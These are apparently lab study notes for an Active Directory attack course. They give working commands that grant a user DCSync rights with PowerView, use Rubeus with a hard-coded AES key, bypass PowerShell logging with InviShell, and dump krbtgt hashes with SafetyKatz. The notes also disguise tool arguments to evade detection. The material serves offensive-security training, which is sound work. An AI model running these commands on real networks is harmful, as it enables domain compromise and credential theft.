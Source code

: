 [[Persistence]]
check if a user has replication (dcsync) rights
load powerview.
```
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```
if user does not have replication rights, lets add:
```
echo %Pwn%
```
%pwn = asktgt
from elevated cmd(to start session as DA)
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
run below commands in new process
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat  
```
```
. C:\AD\Tools\PowerView.ps1 
```
```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentx -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
check for rights again (from normal shell):
```
Get-DomainObjectAcl -SearchBase"DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```
Now, below command (or any similar tool) can be used as studentx to get the hashes of krbtgt user or any other user
```
echo %Pwn%
```
%pwn% = lsadump::dcsync
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```
